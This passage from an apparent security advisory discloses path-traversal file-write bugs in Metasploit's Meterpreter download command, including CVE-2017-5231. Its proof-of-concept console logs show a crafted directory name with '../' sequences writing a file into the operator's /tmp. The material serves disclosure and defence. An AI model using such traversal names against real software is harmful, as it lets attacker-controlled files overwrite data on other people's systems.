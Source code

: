 ```text
meterpreter > ^Z
Background session 1? [y/N]

msf exploit(handler) > cat /tmp/doot.txt
[*] exec: cat /tmp/doot.txt

doot doot
```

The vulnerability can also be exploited if the victim recursively downloads a
directory that is a parent of the malicious directory:

```text
msf exploit(handler) > rm /tmp/doot.txt
[*] exec: rm /tmp/doot.txt

msf exploit(handler) > cat /tmp/doot.txt
[*] exec: cat /tmp/doot.txt

cat: /tmp/doot.txt: No such file or directory

msf exploit(handler) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > download -r C:/Users/Justin/Desktop /home/justin/looted_desktop
[*] downloading: C:/Users/Justin/Desktop\desktop.ini -> /home/justin/looted_desktop/desktop.ini
[*] download   : C:/Users/Justin/Desktop\desktop.ini -> /home/justin/looted_desktop/desktop.ini
[*] mirroring  : C:/Users/Justin/Desktop\tasty_loot -> /home/justin/looted_desktop/tasty_loot
[*] downloading: C:/Users/Justin/Desktop\tasty_loot\../../../../../../../../../../tmp/doot.txt -> /home/justin/looted_desktop/tasty_loot/../../../../../../../../../../tmp/doot.txt
[*] download   : C:/Users/Justin/Desktop\tasty_loot\../../../../../../../../../../tmp/doot.txt -> /home/justin/looted_desktop/tasty_loot/../../../../../../../../../../tmp/doot.txt
[*] mirrored   : C:/Users/Justin/Desktop\tasty_loot -> /home/justin/looted_desktop/tasty_loot

meterpreter > ^Z
Background session 1? [y/N]

msf exploit(handler) > cat /tmp/doot.txt
[*] exec: cat /tmp/doot.txt

doot doot
```

CVE-2017-5231: Rapid7 Metasploit stdapi `CommandDispatcher.cmd_download()` Recursive Globbing Arbitrary File Write
-------------------------------------------------------------------------------------------------------------------

* Public disclosure date: 8 Feb 2017
* Vendor advisory: <https://community.rapid7.com/community/infosec/blog/2017/03/01/multiple-vulnerabilities-affecting-four-rapid7-products>
* Affected versions: 4.13.20 and prior

Metasploit's
`Rex::Post::Meterpreter::Ui::Console::CommandDispatcher::Stdapi::Fs::cmd_download()`,
which is used to dispatch download requests to lower-level code, is vulnerable
to a remotely exploitable arbitrary file write bug.
